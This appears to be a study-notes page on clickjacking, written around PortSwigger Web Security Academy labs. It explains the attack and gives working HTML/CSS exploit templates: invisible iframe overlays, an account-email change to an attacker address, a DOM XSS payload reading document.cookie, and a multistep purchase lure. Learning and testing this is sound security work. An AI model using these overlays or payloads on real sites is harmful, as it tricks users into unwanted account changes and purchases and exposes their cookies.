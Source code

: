 # Clickjacking (UI redressing)

![](https://github.com/DK9510/Img/blob/main/ClickJacking.png)

## clickJacking
- it is an interface based attack in which a user is tricked into clicking on actionable content on a hidden website by clicking on some other content in a decoy website.
- `Example: `
- A web user access a decoy website (i.e link provided by `phishing mail`) and click on a button to win a prize.
- unknowingly, they have been deceived by an attacker into pressing an alternative hidden button and this result in `payment to the attacker or any thing like purchasing subscription to attacker etc`.
- this is example of `clickjacking attack`
- the technique is depend on the `actionable and invisible webpage`
- `Note:` this attack is different from the `CSRF` because in `CSRF we do unintentionable action without user's knowledge and intraction` while in `Clickjacking` user need to click button which trigger hidden iframe or link to do certain tasks.
- Protection against CSRF attacks is often provided by the use of a `CSRF token` a session-specific, single-use number or nonce. `Clickjacking` attacks are not mitigated by the `CSRF token` as a target session is established with content loaded from an authentic website and with all requests happening on-domain. `CSRF tokens` are placed into requests and passed to the server as part of a normally behaved session. The difference compared to a normal user session is that the process occurs within a hidden iframe.

# how to construct basic clickjacking attack
- it use CSS to create and manipulate layers 
- `Example: `
```js
<head>  
  <style>  
    #target_website {  
      position:relative;  
      width:128px;  
      height:128px;  
      opacity:0.00001;  
      z-index:2;  
      }  
    #decoy_website {  
      position:absolute;  
      width:300px;  
      height:400px;  
      z-index:1;  
      }  
  </style>  
</head>  
...  
<body>  
  <div id="decoy_website">  
  ...decoy web content here...  
  </div>  
  <iframe id="target_website" src="https://vulnerable-website.com">  
  </iframe>  
</body>
```

adjust buttons to the iframe button and send to victim

another exploit 
```js
<style>
   iframe {
       position:relative;
       width:700px;
       height: 500px;
       opacity: 0.000001;
       z-index: 2;
   }
   div {
       position:absolute;
       top: 450px;
       left: 80px;
       z-index: 1;
   }
</style>
<div>Click</div>
<iframe sandbox="allow-forms" src="https://ac541f881fc916be80be6fa300d3000a.web-security-academy.net/my-account/?email=hacker@attacker-website.com"></iframe>
```

## Combining Clickjacking with DOM XSS attack
exploit
```js
<style>  
   iframe {  
       position:relative;  
       width:700;  
       height: 500;  
       opacity: 0.00001;  
       z-index: 2;  
   }  
   div {  
       position:absolute;  
       top:410;  
       left:80;  
       z-index: 1;  
   }  
</style>  
<div>Test me</div>  
<iframe  
src="$url?name=<img src=1 onerror=alert(document.cookie)>&email=hacker@attacker-website.com&subject=test&message=test#feedbackResult"></iframe>
```

## Multistep Clickjacking
- Attacker manipulation of inputs to a target website may necessitate multiple actions. For example, an attacker might want to trick a user into buying something from a retail website so items need to be added to a shopping basket before the order is placed. These actions can be implemented by the attacker using multiple divisions or iframes. Such attacks require considerable precision and care from the attacker perspective if they are to be effective and stealthy.
```js
<style>
   iframe {
       position:relative;
       width:700px;
       height: 700px;
       opacity: 0.1;
       z-index: 2;
   }
   .firstClick, .secondClick {
       position:absolute;
       top:450px;
       left:55px;
       z-index: 1;
   }
   .secondClick {
       top:535px;
       left:55px;
   }
</style>
<div class="firstClick">Click me First</div>
<div class="secondClick">Click me next</div>
<iframe src="https://ac7a1fcf1f6afc5080da19c4004e0043.web-security-academy.net/my-account/"></iframe>
```

## Protecting Against ClickJacking 
### [portswigger-web-security](https://portswigger.net/web-security/clickjacking)
